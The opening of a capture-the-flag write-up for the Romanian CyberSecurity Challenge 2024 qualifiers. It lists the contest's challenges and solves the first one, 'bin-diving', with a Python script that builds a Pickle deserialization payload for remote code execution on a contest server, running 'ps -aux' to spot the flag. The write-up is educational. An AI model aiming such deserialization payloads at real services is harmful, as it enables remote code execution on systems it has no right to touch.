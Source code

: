 ```yaml
---
title: 'RoCSC 2024'
description: 'Write-ups for the Romanian CyberSecurity Challenge 2024 Online Qualifiers.'
date: 2024-03-20T00:00:00Z
layout: "post.ejs"
permalink: "/rocsc-2024/"
---
```


Write-ups for the Romanian CyberSecurity Challenge 2024 Online Qualifiers.

![](/assets/images/posts/loc1-rocsc-2024-quals.png)

- [bin-diving (250 pts, 51 solves) - Misc](#bin-diving)
- [friendly-colabs (205 pts, 60 solves) - OSINT](#friendly-colabs)
- [rtfm (315 pts, 38 solves) - Misc](#rtfm)
- [java-eval (410 pts, 19 solves) - Web](#java-eval)
- [grocery-list (280 pts, 45 solves) - Web](#grocery-list)
- [binary-illusions (266 pts, 33 solves) - Reverse Engineering](#binary-illusions)
- [from-memory (103 pts, 63 solves) - Forensics](#from-memory)
- [crackinator (449 pts, 11 solves) - Reverse Engineering](#crackinator)
- [the-harmonica (445 pts, 12 solves) - Steganography](#the-harmonica)
- [ui-crack (435 pts, 14 solves) - Reverse Engineering](#ui-crack)
- [decryptor (435 pts, 14 solves) - Reverse Engineering](#decryptor)
- [counting (430 pts, 15 solves) - Cryptography](#counting)
- [special-waffle (282 pts, 21 solves) - Threat hunting, Threat intelligence](#special-waffle)
- [android-echoes (255 pts, 50 solves) - Mobile](#android-echoes)
- [joker-and-batman-story (180 pts, 65 solves) - Misc](#joker-and-batman-story)
- [cool-upload (400 pts, 21 solves) - Web](#cool-upload)

<a name="bin-diving"></a>

## bin-diving (250 pts, 51 solves) - Misc

Description:

```
It's a dumpster dive like no other, where the trash talk is just as valuable as the treasures you uncover. Get ready to rummage for the ultimate prize!

Flag format: CTF{sha256}
```

We can get RCE by deserializing Pickle objects in Python. The flag is "deleted", but we can see it in the command line of other processes :)

Solver script:
```py
from pwn import *

sh = remote('35.246.182.143', 32273)

import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        return (exec,(command,))

command = 'import os; print(os.popen("ps -aux").read())'

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload

```